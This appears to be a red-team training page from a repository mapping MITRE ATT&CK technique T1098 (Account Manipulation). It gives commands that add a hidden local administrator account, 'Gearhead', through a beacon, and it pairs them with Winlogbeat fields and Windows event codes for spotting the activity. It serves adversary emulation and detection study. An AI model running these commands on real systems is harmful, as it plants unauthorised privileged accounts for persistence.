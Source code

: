 # [Account Manipulation](https://attack.mitre.org/techniques/T1098/)

## **LOCAL USER Exploit syntax:**
1. Get a beacon with local/domain administrative privileges.

2. In parrot open a blank text file and paste the following commands into it
    ```powershell
    net user /add Gearhead Squanch123;
    ```
    ```powershell
    net localgroup administrators /add Gearhead;
    ```

3. Save the file with as `Pencilvester.ps1` to `/tmp`

4. Run
	```sh
	sudo chmod +x /tmp/Pencilvester.ps1
	```

5.  In posh, run
    ```powershell
	pslo /tmp/Pencilvester.ps1
    ```
> **NOTE:** that the above .ps1 file syntax and be modified to change the users password, delete the user, added to a different group(using net localgroup), etc
## **DOMAIN USER Exploit syntax:**

---

## **Detection Technique:**
* Monitor windows events related to account manipulation

* Winlogbeat:
    * Event.code: 1
  
    * process.args
      *  C:\windows\system32\net.exe, user, /add, Gearhead, Squanch123 

    * process.command_line
	    * "C:\windows\system32\net.exe" user /add Gearhead Squanch123
  
    * process.executable
	    * C:\Windows\System32\net.exe

    * Event.code: 4720
        * (added user account)
  
    * Event.code: 4726
        * (deleted user account)
  
    * Event.code: 4738
        * (modified user account such as password change)
  
    * Event.code: 4732
        * (added user account to Administrators group)
  
    * Event.code:4733
      * (deleted user account from Administrators group)
    
    
    
